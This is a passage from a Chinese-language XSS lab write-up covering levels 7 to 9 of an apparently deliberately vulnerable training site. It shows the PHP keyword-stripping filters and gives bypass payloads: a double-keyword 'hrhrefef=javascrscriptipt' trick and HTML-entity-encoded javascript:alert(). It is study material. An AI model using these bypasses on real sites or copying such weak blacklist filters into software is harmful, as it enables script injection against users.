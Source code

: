 ```php
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

payload

```
"> <a hrhrefef=javascrscriptipt:alert()>xxx</a> <"
```

## level 8

先筛关键字测试一下 `" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>` ，变成了 `" sr_c da_ta o_nfocus <scr_ipt> <a hr_ef=javascr_ipt:alert()>` ，大小写无效，黑名单也不少。

后端。这里明明有对引号进行实体编码，但是我输入的时候没有，不知道什么原因，但是不影响解题

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```

利用unicode编码绕过，href会自动解析unicode编码。利用在线工具编码，[HTML字符实体转换，网页字符实体编码 (qqxiuzi.cn)](https://www.qqxiuzi.cn/bianma/zifushiti.php)

payload

```
javascript:alert()
&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x29;
```

## level 9

输入啥都是显示连接不合法，“不合法“就考虑到是不是规范了http格式，查一下源码，在黑名单的基础上有检测 `http://`
